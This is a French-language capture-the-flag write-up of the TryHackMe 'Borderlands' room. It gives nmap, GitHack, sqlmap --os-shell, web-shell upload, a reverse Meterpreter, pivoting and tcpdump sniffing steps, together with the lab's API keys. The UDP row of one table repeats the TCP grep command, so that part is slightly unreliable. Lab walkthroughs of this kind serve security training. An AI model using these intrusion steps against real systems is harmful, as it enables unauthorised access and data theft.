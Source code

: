 ## TryHackMe – Borderlands

> **Objectif :** montrer pas à pas la méthodologie d’attaque – de la compromission du périmètre jusqu’au pivot réseau.

---

### 1 . Déploiement & Contexte

- Room : **Borderlands** – TryHackMe (difficulté : Hard)
- Topologie : un hôte périmétrique exposé à Internet, un réseau DMZ et un LAN interne derrière un routeur Linux.
- Outils : Kali Linux, Nmap, GitHack, Apktool, SQLMap, Metasploit.

---

### 2 . Reconnaissance réseau

```bash
sudo nmap -p- -sS -sV -A <IP-CIBLE>
```

| Port | Service | Détails utiles                          |
| ---- | ------- | --------------------------------------- |
| 22   | SSH     | OpenSSH 7.2p2 Ubuntu                    |
| 80   | HTTP    | **nginx 1.14.0** – dépôt `.git/` exposé |
| 8080 | Closed  | (proxy)                                 |

> Le scan révèle une application PHP peu sécurisée et un dépôt Git accessible : excellent point d’entrée.

---

### 3 . Analyse du site web & clés API

1. **Dump du dépôt Git**

   ```bash
   python GitHack.py http://<IP-CIBLE>/.git/
   ```

   - Fichiers PHP & APK récupérés.
   - Historique : commit *“removed sensitive data”*.

2. **Extraction des clés**

| Clé       | Méthode                               | Valeur                           |
| --------- | ------------------------------------- | -------------------------------- |
| **AND\*** | Décompilation APK + Vigenère          | `ANDVOWLDLAS5Q8OQZ2tuIPGcOu2mXk` |
| **WEB\*** | Lecture directe `home.php`            | `WEBLhvOJAH8d50Z4y5G5g4McG1GMGD` |
| **GIT\*** | Inspection d’un commit (git cat-file) | `GITtFi80llzs4TxqMWtCotiTZpf0HC` |

---

### 4 . Injection SQL & Shell WebApp

1. **Détection SQLi**

   ```bash
   sqlmap -r request.txt --batch
   ```

   - Paramètre vulnérable : `documentid` (UNION, error‑based, time‑based).

2. **Shell PHP**

   ```bash
   sqlmap -r request.txt -D myfirstwebsite --os-shell
   ```

   - Upload d’un web‑shell (`tmpbsjex.php`).
   - Reverse Meterpreter → privilèges **www-data**.

3. **Flag WebApp**

   ```bash
   cat /var/www/flag.txt
   {FLAG:Webapp:48***a6}
   ```

---

### 5 . Pivot vers le réseau interne

| Interface | Adresse        | Rôle        |
| --------- | -------------- | ----------- |
| eth0      | 172.18.0.2/16  | DMZ         |
| eth1      | 172.16.1.10/24 | LAN interne |

- ARP : plusieurs hôtes 172.16.1.250‑254 ; routeur probable : **172.16.1.1**.

---

### 6 . Découverte & rebond

1. **Balayage ARP Python** → identification de 172.16.1.1.
2. **Port‑forward/Tunnel** (si nécessaire) avec SSH dynamique.

---

### 7 . Compromission de router1

- Escalade vers **root** (exploit Kernel/Sudo).
- **Flag Router1**
  ```bash
  cat /root/flag.txt
  {FLAG:Router1:c8***cd}
  ```

---

### 8 . Capture des communications internes

| Protocole | Commande                               | Flag                 |
| --------- | -------------------------------------- | -------------------- |
| UDP       | `tcpdump -i eth0 -A \| grep FLAG:TCP`  | `{FLAG:UDP:3b***3c}` |
| TCP       | `tcpdump -i eth0 -A \| grep FLAG:TCP`  | `{FLAG:TCP:8f***3e}` |

---

### 9 . Récapitulatif rapide

| Étape   | Outil               | Résultat            |
| ------- | ------------------- | ------------------- |
| Recon   | **Nmap**            | Ports 22/80         |
| Code    | **GitHack**         | Source + APK        |
| Mobile  | **Apktool**         | Clé AND             |
| Lecture | **grep**            | Clé WEB             |
| Git     | **git cat-file**    | Clé GIT             |
| Exploit | **SQLMap**          | Shell + Flag WebApp |
| Pivot   | ifconfig / ARP scan | Accès LAN           |
| Root    | Escalade kernel     | Flag Router1        |
| Sniff   | tcpdump / socat     | Flags UDP & TCP     |

---

### 10 . Conclusion

Cette room démontre qu’une démarche méthodique (recon → enum → exploit → pivot → post‑exploitation) reste efficace, même en difficulté *Hard*. Les dépôts Git oubliés, l’ingénierie inverse sur mobile et la surveillance réseau sont souvent sous‑estimés ; ils se révèlent pourtant décisifs pour une compromission complète.

---

***Auteur*** *: Saad Idrissi*
